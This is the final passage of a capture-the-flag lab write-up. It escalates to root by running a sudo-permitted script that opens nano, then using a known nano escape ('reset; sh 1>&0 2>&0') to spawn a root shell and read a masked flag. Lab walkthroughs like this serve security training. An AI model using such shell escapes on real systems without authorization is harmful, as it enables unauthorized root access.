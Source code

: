 We can spawn a shell using nano, since nano will be running as root, the shell we will spawn will also run as root ! Let's exploit this. First, we need to run "rootkit.sh" as root :  
```
mike@gallery:/opt$ sudo /bin/bash /opt/rootkit.sh 
Would you like to versioncheck, update, list or read the report ?
```

We have to choose "read" to open nano :  
![](https://i.imgur.com/nGqLFkh.jpg)  

Now that nano is open, we just have to follow the exploit explained on [GTFOBins](https://gtfobins.github.io/). First, we press CTRL+R, and then CTRL+X :  
![](https://i.imgur.com/fHbu4Iv.jpg)  

Now, we can execute whatever we want as root. Let's spawn a shell by entering "reset; sh 1>&0 2>&0" :  
```
# whoami
root
#
```

We have a shell as root ! Now let's get the root flag :  
```
# cd /root
# ls -la
total 52
drwx------  6 root root 4096 Oct 19 22:42 .
drwxr-xr-x 23 root root 4096 Feb 12  2022 ..
-rw-------  1 root root  364 Feb 12  2022 .bash_history
-rw-r--r--  1 root root 3107 May 20  2021 .bashrc
drwx------  2 root root 4096 Feb 12  2022 .cache
drwx------  3 root root 4096 Feb 12  2022 .gnupg
drwxr-xr-x  3 root root 4096 May 20  2021 .local
-rw-------  1 root root  440 Aug 25  2021 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 3404 May 18  2021 report.txt
-rw-r--r--  1 root root 1024 Oct 19 22:42 .report.txt.swp
-rw-r--r--  1 root root   43 May 17  2021 root.txt
drwx------  2 root root 4096 May 20  2021 .ssh
# cat root.txt
THM{***********************************}
#
```

## Conclusion

In this room, the way we have to escalate our privileges is original in my opinion. I liked this room, thanks for this room ! And thanks for reading my write ups !
